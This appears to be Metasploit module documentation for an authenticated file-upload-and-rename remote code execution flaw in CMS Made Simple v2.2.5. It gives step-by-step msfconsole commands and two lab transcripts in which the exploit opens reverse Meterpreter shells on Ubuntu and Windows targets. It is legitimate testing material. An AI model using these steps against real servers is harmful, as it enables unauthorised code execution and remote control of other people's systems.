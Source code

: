 ## Description

CMS Made Simple v2.2.5 allows an authenticated administrator to upload a file and rename it to have a .php extension. The file can then be executed by opening the URL of the file in the /uploads/ directory.

## Vulnerable Application

[CMS Made Simple v2.2.5](http://dev.cmsmadesimple.org/project/files/6)

## Verification Steps

1. `./msfconsole -q`
2. `use use exploit/multi/http/cmsms_upload_rename_rce`
3. `set username <username>`
4. `set password <password>`
5. `set rhosts <rhost>`
6. `run`

## Scenarios

### CMS Made Simple v2.2.5 on Ubuntu 18.04 (PHP 7.2.7, Apache 2.4.9)

```
msf5 > use exploit/multi/http/cmsms_upload_rename_rce
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set username msfdev
username => msfdev
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set password msfdev
password => msfdev
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set rhosts 172.22.222.123
rhosts => 172.22.222.123
msf5 exploit(multi/http/cmsms_upload_rename_rce) > run

[*] Started reverse TCP handler on 172.22.222.194:4444 
[*] Sending stage (37775 bytes) to 172.22.222.123
[*] Meterpreter session 1 opened (172.22.222.194:4444 -> 172.22.222.123:44352) at 2018-07-17 08:41:33 -0500

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```

### CMS Made Simple v2.2.5 on Windows 10 x64 (PHP 5.6.35, Apache 2.4.33)

```
msf5 > use exploit/multi/http/cmsms_upload_rename_rce
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set username msfdev
username => msfdev
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set password msfdev
password => msfdev
msf5 exploit(multi/http/cmsms_upload_rename_rce) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf5 exploit(multi/http/cmsms_upload_rename_rce) > run

[*] Started reverse TCP handler on 172.22.222.194:4444 
[*] Sending stage (37775 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.194:4444 -> 172.22.222.175:49829) at 2018-07-17 08:46:27 -0500

meterpreter > sysinfo
Computer    : WIN10
OS          : Windows NT WIN10 10.0 build 17134 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter >
```
